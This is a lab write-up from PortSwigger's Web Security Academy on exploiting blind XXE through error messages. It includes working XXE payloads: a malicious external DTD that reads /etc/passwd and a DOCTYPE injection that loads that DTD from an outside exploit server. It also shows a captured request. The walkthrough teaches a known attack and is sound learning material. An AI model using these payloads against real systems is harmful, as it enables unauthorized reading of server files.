


# Exploiting blind XXE to retrieve data via error messages

## Lab Description :


## Overview :
An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response.

You can trigger an XML parsing error message containing the contents of the /etc/passwd file using a malicious external DTD as follows:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Invoking the malicious external DTD in a request will result in an error message in the response like the following:

```1
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Solution :
Clicking on checkstock , browser sends a request as follows.
```html
POST /product/stock HTTP/2
Host: 0af30033047260258367614100b000eb.web-security-academy.net
Cookie: session=TnnpQlYQo6aNbZz19PpZgs3EumVLAIfl
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0af30033047260258367614100b000eb.web-security-academy.net/product?productId=3
Content-Type: application/xml
Content-Length: 107
Origin: https://0af30033047260258367614100b000eb.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>3</productId>
  <storeId>1</storeId>
</stockCheck>
```
In order to trigger an error message & retreive the contents of /etc/passwd file in the application response, we need to perform few steps.

Steps -
Make a request which has a DOCTYPE containing a payload which will fetch the contents of the malicious DTD hosted at our exploit server.
The exploit server will retreive the contents of /etc/passwd and it will try to send the exfiltrated data back to the non-existent server
Since the server address is non existent, it will throw an error. So we get both error and the contents of /etc/passwd file in the response.

Craft a payload -
In the request to check the stock, we can insert the following external entity definition in between the XML declaration and the stockCheck element:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [<!ENTITY % xxe SYSTEM "http://exploit-0ac1007c04b760e583b56076015d00b1.exploit-server.net/exploit"> %xxe;]>
<stockCheck>
  <productId>3</productId>
  <storeId>1</storeId>
</stockCheck>
```
Create a malicious DTD -
On the exploit server create a malicious DTD file with the following contents,
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'file:///non-existent/%file;'>">
%ent;
%exfiltrate;
```
NOTE - We intentionally give the name/location of the file as non-existent to induce an error.

When we send the request , we get the error message along with the contents of /etc/passwd.



Thus we've solved the lab.


#### Visit The Next Page For The Next Level :)
